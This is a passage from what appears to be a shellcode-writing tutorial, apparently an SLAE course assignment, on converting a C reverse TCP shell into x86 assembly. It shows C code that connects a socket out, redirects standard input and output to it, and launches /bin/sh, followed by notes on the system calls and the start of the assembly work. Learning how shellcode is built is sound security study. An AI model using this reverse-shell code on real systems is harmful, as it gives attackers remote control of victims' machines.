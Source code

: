 ```c
connect(sockfd, (struct sockaddr *)&amp;sa, sizeof(sa));
dup2(sockfd, 0);
dup2(sockfd, 1);
dup2(sockfd, 2);

execve("/bin/sh", 0, 0);
return 0;
}

```

<p style="text-align:justify;">
In order to convert the above code into x86 assembly, there is a need to investigate the&nbsp; system calls being used. Specifically, the following&nbsp; system calls are used:
</p>

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
socket
connect 
dup2 
execve
</pre>

<p style="text-align:justify;">The above system calls except <strong>execve</strong>&nbsp;and <strong>dup2</strong> are socket system calls&nbsp;and they are referenced with <strong>socketcall</strong> which is a common kernel entry point. Furthermore, the following steps are mentioned in order to construct and create the reverse shell connection as follows</p>

<ol>
 	<li>Use <strong>connect</strong> system call to connect to a <strong>socket</strong> in specified address</li>
 	<li>Add the destination address to the <strong>sockaddr</strong> structure</li>
 	<li>Duplicate the <strong>stdin</strong>, <strong>stdout</strong> and <strong>stderr</strong> to the open <strong>socket</strong></li>
</ol>
<p style="text-align:justify;">The steps above providing a footprint to further build the <strong>reverse tcp shellcode</strong>. Moreover, searching the <strong>net.h</strong> header file we can see the defined identifier for the <strong>connect</strong> system call</p>

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
<span style="color:#cd0000;"><b>root@slae</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment2</b></span># cat /usr/include/linux/net.h | grep SYS_CONNECT
#define SYS_CONNECT 3 /* sys_connect(2) */
</pre>

<p style="text-align:justify;">
Proceeding further, it is time to create the <strong>reverse.nasm</strong> file. Before starting to write the reverse tcp shellcode in assembly, the registers <strong>eax</strong>&nbsp; and <strong>edx</strong>&nbsp; will be zeroed out as follows
</p>
